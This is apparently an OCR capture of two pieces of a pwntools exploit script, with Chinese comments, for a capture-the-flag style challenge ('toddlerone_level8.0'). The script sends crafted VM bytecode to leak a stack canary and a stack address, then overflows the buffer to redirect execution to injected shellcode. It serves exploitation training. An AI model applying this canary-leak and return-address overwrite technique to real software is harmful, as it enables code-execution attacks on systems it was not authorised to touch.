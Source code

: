 ```python
    b'\x04\xFF\x01' # IMM b = \xFF
    b'\x04\x21\x08' # IMM c = \x21
    b'\x08\x40\x20' # read  返回值是a
    b'\x04\xFF\x10' # IMM i = \xFF
]

p.recvuntil("Please input your yancode:")
payload = data_list[0] + shellcode
p.send(payload)
p.recvline()
return_print = p.recv() # 因为yancode中的write 写入的是字节，他没有在最后增加\n，所以readline始终是读不到值的
print(return_print)
canary_value = return_print[1+8: 1+8+8]
stack_value  = return_print[1+8*5: 1+8*6]
print(canary_value)
print(stack_value)
stack_value = u64(stack_value)

payload = b'\xFF'+ b'\xFF' * 0x8 + p64(u64(canary_value)) + b'\xFF'*8  + p64(stack_value - 0xF8 -0x410 + len(data_list[0]))
p.send(payload)
response = p.recvall().decode('utf-8')

if "pwn" in response:
    print(response)
exit()





from pwn import *

elf = ELF("/challenge/toddlerone_level8.0")

"""
arg1 arg2 op  register values op

SYS \x04            exit --0x20   read 0x10 write 0x4
IMM \x08     

a 0x10
b 0x02
c 0x08
i 0x20

"""
shellcode_file = open("/home/hacker/exploit/level7/shellcode.bin","rb")
shellcode = shellcode_file.read()

p = process("/challenge/toddlerone_level8.0")
data_list = [
    b'\x10\x01\x08' # IMM a= \x01
    b'\x02\xFF\x08' # IMM b = \xFF
    b'\x08\x31\x08' # IMM c = \x31
    b'\x04\x10\x04' # write  返回值是a

    b'\x10\x00\x08' # IMM a= \x00
    b'\x02\xFF\x08' # IMM b = \xFF
    b'\x08\x21\x08' # IMM c = \x21
    b'\x10\x10\x04' # read  返回值是a
    b'\x20\xFF\x08' # IMM i = \xFF
]
```